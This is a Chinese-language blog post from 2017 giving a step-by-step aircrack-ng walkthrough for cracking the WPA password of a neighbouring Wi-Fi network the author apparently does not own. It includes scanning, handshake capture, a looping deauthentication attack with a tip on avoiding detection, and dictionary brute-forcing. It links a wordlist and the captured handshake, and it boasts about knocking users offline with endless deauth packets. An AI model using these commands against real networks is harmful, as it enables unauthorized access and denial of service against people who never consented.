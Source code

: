 ```yaml
---
layout: post
title:  "aircrack-ng破解Wi-Fi密码"
date:   2017-05-25 16:17:32 +0800
categories: hack your life
catalog:  true
tags:
  - hack your life
---
```




# 0 前言

一开始想用Mac系统做这件事情，上网搜了一下，发现没有管用的强制断开重新认证命令，很多人的博客甚至选择痴痴地等待。折腾了一会儿决定改变策略，用Kali Linux 来干这件事情。虚拟机安好后又找不到我的MacBook Air的无线网卡。后来在[kali linux上如何挂载无线网卡？](https://www.zhihu.com/question/40871402)  这篇回答中指出，虚拟机只能挂载USB无线网卡。难道我得装个系统在U盘上？想起以前街头扫码获赠过一个360随身WiFi，试了一下竟然能识别。整个获取握手包的过程还算顺利，最后竟然是安装Parallels tools 花了我很多时间，为了访问放在host设备上的字典文件。后来折腾半天也没搞定。就用优盘把握手包拷出来到host主机上了。



# 1 工具


1. [Kali Linux](https://www.kali.org/downloads/)    
2. 虚拟机 Parallels
3. USB 无线网卡，我用的是360随身Wi-Fi
4. aircrack-ng 
5. wpa字典 链接: https://pan.baidu.com/s/1eSEHh1g 密码🐎: 7weg



# 2 过程

## 1 检查插入的无线网卡
插入之前无线网卡之前，先运行一下

~~~
airmon-ng
~~~

插入无线网卡以后再运行一次
![snip20170525_0.png]({{ site.url }}/assets/snip20170525_0.png)
iwconfig查看无线网卡有没有加载成功，可以看到wlan0的无线设备
![snip20170525_1.png]({{ site.url }}/assets/snip20170525_1.png)


## 2 检查周围网络

~~~
airodump-ng wlan0
~~~


![snip20170525_2.png]({{ site.url }}/assets/snip20170525_2.png)

通过这个命令还真可以看，当前那个AP有客户端在连接，我挑了一个比较活跃的nan。

## 3 开始抓握手包

~~~
airodump -w sofia -c 3 wlan0
~~~

* -w 表示保存握手包，
* sofia为包的名称，随意设置，最终文件为sofia-01.cap
* -c 3 频道3
* wlan0  制定网卡设备
* 也可以制定想要的AP 我执行的命令就是

	 ~~~ 
	 airodump -w sofia -c 3  --bssid 54:E6:FC:30:54:DA  wlan0
	 ~~~


## 4 断开包


一开始不会有握手包被我抓到，于是我新开了一个终端，执行

~~~
aireplay-ng -0 -0 -a 54:E6:FC:30:54:DA  wlan0
~~~

![snip20170525_3.png]({{ site.url }}/assets/snip20170525_3.png)


* -0 为模式中的一种，冲突攻击模式，后面跟发送次数，设置为0，则为循环攻击，不停的断开连接，客户端无法正常上网
* -a 指定无线AP的MAC地址，为该无线网的bssid。


发送断开包以后，会在之前的那个终端看到WPA handshake 字样，后面跟着bssid，CTRL+C停止嗅探握手包。
马上停止断开包，别让人家给发现异常了。

![snip20170525_4.png]({{ site.url }}/assets/snip20170525_4.png)

* BSSID--无线AP（路由器）的MAC地址
* PWR--这个值的大小反应信号的强弱，越大越好。
* RXQ--丢包率，越小越好.
* Beacons--大致就是反应客户端和AP的数据交换情况，通常此值不断变化。
* \#Data--如果有用户正在下载文件或看电影等大量数据传输的话，此值增长较快。 
* CH--工作频道。
* MB--连接速度
* ENC--编码方式。通常有WEP、WPA、TKIP等方式。
* ESSID--可以简单的理解为局域网的名称。

看到WPA handshake 字样，跟着一个不完整的bssid，握手包到手。😄



## 5 爆破

用字典爆破，网上随便找了几个字典

~~~
aircrack-ng sofia-01.cap -w  wpa专用.txt
~~~

和别的教程不一样，在运行了一个多小时以后，还没有出来结果，我才舍不得我的air来干这傻事，所以果断放弃了。

![snip20170525_5.png]({{ site.url }}/assets/snip20170525_5.png)

[握手包分享]({{ site.url }}/assets/20170525_sofia-01.cap)

# 3 技能Get

所以直到最后我还是不知道你的密码，唯一的收获是习得一个方法，可以一直发DeAuth包让你一直上不了网，害怕吧。


# 4 题外话
Parallels tools 是有多难安。我一路披荆斩棘，解决了一个又一个问题，最后也是果断放弃。

* 提示需要源，好，我搜搜。 When I try to install Parallels Tools in my virtual machine running Ubuntu, I get an error message that Parallels Tools needs the kernel source. [needs the kernel source](http://kb.parallels.com/en/113394)
* 运行失败，好我在研究研究。更新了源 
	* vi  /etc/apt/sources.list 
	* 修改源为 deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
	* 然后执行apt-get update && apt-get dist-upgrade
* 还是不行，发现name -r 得到结果4.9.0-kali3-amd64但是sudo apt-get install linux-headers-得到   kali4，不一致，貌似得重启一下。
* 然后还是安装失败，提示我看一下log，至此放弃。先拷出来吧，不跟着儿耗着了。



# 5 参考<a name="reference"></a>


   1. [装在虚拟机里的 kali linux上如何挂载无线网卡
]( https://www.zhihu.com/question/40871402)
   2. 全程参考这篇文章，虽说有些笔误，但还是写得很好[aircrack-ng无线网WIFI破解教程(下) – WIFI破解实战 ](http://www.vuln.cn/2683
)
   3. 他的这篇原理也写得很好 [aircrack-ng无线网WIFI破解教程(上) - WIFI破解原理](http://www.vuln.cn/2674)